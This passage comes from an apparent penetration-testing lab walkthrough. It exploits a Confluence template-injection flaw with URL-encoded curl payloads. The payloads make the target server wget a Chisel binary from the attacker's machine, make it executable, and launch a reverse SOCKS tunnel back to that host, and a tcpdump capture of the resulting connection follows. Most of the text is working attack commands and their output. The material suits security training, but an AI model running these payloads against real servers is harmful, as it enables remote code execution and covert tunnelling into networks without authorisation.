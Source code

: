```
[sudo] password for kali:

kali@kali:~$ 

```

> Listing 14 - Downloading Chisel 1.8.1 from the main Chisel repo, and copying it to the Apache web root directory.

This will overwrite the copy of Chisel we had already copied into the Apache web root directory. We can then just run the same Wget injection as we did before, to force the CONFLUENCE01 server to download the Chisel binary and write it to /tmp/chisel.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 15 - The Wget payload executed within our cURL Confluence injection command, again.

We can then try to run the Chisel client again on CONFLUENCE01 using the injection.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```

> Listing 16 - Trying to start the Chisel client using the Confluence injection payload, again.

This time, different kind of traffic is logged in our Tcpdump session.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocket
        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
```